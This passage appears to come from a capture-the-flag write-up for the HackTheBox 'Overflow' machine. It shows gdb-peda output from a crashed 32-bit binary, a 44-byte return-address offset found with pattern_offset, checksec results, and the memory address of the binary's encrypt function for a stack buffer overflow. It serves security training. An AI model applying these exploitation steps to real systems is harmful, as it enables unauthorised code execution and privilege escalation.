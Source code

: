     0000| 0xffffceb0 --> 0xf7004162 
    0004| 0xffffceb4 --> 0xffffced0 --> 0x1 
    0008| 0xffffceb8 --> 0x0 
    0012| 0xffffcebc --> 0xf7de0e46 (<__libc_start_main+262>:       add    esp,0x10)
    0016| 0xffffcec0 --> 0xf7fa7000 --> 0x1e4d6c 
    0020| 0xffffcec4 --> 0xf7fa7000 --> 0x1e4d6c 
    0024| 0xffffcec8 --> 0x0 
    0028| 0xffffcecc --> 0xf7de0e46 (<__libc_start_main+262>:       add    esp,0x10)
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x41414641 in ?? ()



In a 32-bit program, the address is returned into EIP before the crash,
so I can feed it that value, "AFAA" to see the offset is 44 bytes into
the name:



    gdb-peda$ pattern_offset AFAA
    AFAA found at offset: 44



#### Address of encrypt

If I'm going to return to `encrypt`, I need the address. Interestingly,
`checksec` says that PIE is enabled:



    oxdf@hacky$ checksec file_encrypt
    [*] '~/hackthebox/overflow-10.10.11.119/file_encrypt'
        Arch:     i386-32-little
        RELRO:    Full RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      PIE enabled



Luckily for me, ASLR is disabled on the server, so the code will be
fixed in memory. `gdb` on Overflow shows the address:



    tester@overflow:/opt/file_encrypt$ gdb -q file_encrypt
    Reading symbols from file_encrypt...(no debugging symbols found)...done.
    (gdb) b main
    Breakpoint 1 at 0xb70
    (gdb) r
    Starting program: /opt/file_encrypt/file_encrypt 

    Breakpoint 1, 0x56555b70 in main ()
    (gdb) p encrypt 
    $1 = {<text variable, no debug info>} 0x5655585b <encrypt>


